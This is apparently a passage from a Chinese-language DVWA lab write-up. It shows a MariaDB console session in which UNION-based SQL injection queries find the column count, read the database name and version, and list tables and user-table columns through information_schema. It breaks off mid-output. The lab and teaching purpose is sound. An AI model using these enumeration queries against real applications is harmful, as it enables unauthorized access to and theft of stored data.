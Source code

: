 ​ 后端数据库操作如下：

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| dvwa               |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.006 sec)

MariaDB [(none)]> use dvwa;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.010 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select 1,2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| 1          | 2         |
+------------+-----------+
2 rows in set (0.003 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select 1,2,3;
ERROR 1222 (21000): The used SELECT statements have a different number of columns

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union all select database(),version();
+------------+---------------------------+
| first_name | last_name                 |
+------------+---------------------------+
| admin      | admin                     |
| dvwa       | 10.3.27-MariaDB-0+deb10u1 |
+------------+---------------------------+
2 rows in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa';
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| admin      | admin           |
| 1          | guestbook,users |
+------------+-----------------+
2 rows in set (0.001 sec)

MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
```